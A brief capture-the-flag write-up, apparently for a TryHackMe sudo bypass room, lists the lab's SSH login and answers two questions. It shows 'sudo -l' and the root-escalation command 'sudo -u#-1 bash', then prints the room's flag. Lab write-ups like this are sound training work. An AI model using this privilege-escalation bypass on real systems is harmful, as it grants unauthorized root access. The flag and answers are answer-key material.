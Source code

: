 This file consistes of the sudoku user bypass the access of the device.

IP address : 10.10.19.136

for connection used ssh  at port 2222
user name tryhackme and password tryhackme
#1. What command are you allowed to run with sudo?
Ans. run sudo -l found /bin/bash user for all

#2 What is the flag in /root/root.txt?
Ans. Run sudo -u#-1 bash to go into root then run cat /root/root.txt
found the flag THM{l33t_s3cur1ty_bypass}

